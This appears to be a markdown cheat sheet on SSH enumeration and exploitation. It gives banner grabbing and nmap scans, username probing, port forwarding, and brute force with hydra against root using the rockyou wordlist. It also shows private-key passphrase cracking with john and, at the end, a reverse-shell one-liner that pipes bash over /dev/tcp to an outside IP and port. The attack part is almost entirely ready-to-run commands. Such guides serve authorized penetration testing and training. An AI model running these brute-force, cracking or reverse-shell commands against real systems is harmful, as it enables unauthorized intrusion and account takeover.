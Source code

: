 # SSH Enumeration & Exploitation Guide

##  Enumeration

### 1. Identify SSH Version

- **Using Banner Grabbing**
```bash
telnet <target-ip> 22
```
![](images/s1.png)
 Note: While port 22 is the default for SSH, some systems may use custom ports. Always perform a full port and service scan to discover hidden services.

- **Using Port Scanners**
```bash
naabu -host <target-ip>
```

- **Using Nmap**
```bash
nmap -sS -Pn -sV -A -p22 -vvv <target-ip>
```

**Note: Nmap results might show RSA host keys and other useful fingerprinting data.**
![](images/s2.png)

---

### 2. Enumerating SSH Features

- SSH performs a handshake to exchange keys, authenticate, and select encryption algorithms.

- **Enumerate Supported Algorithms**
```bash
nmap -p22 --script ssh2-enum-algos <target-ip>
```

Example output includes:

- `kex_algorithms`: diffie-hellman-group*, etc.
- `server_host_key_algorithms`: ssh-rsa, ssh-dss
- `encryption_algorithms`: aes128-cbc, 3des-cbc, etc.
- `mac_algorithms`: hmac-md5, hmac-sha1, etc.

- **Detect Authentication Mechanisms**
```bash
ssh -v username@<target-ip>
```

Useful to check if the username is valid — SSH often gives different output for valid vs invalid users.

---

## Exploitation

### 3. Key-Based Authentication

- **Generate SSH Keys**
```bash
ssh-keygen -t rsa -b 2048
```

- **Copy Public Key to Target**
```bash
ssh-copy-id user@<target-ip>
```

- **Exploit Misconfigured Permissions**
```bash
ssh -i id_rsa user@<target-ip>
```

---

### 4. Port Redirection / Local Forwarding

```bash
ssh -L 8080:127.0.0.1:8080 username@<target-ip>
```

Access remote services locally via port forwarding.

---

### 5. SSH Brute Force Attacks

- **Using Nmap**
```bash
nmap --script ssh-brute -p 22 <target-ip>
```

- **Using Hydra**
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<target-ip>
```

---

### 6. Advanced Techniques

- **Crack SSH Private Key Passphrase**
```bash
ssh2john id_rsa > sshhash
john --wordlist=/usr/share/wordlists/rockyou.txt sshhash
```

- **Reverse Shell via SSH**
```bash
ssh user@<target-ip> 'bash -i >& /dev/tcp/192.168.31.141/4444 0>&1'
```

---

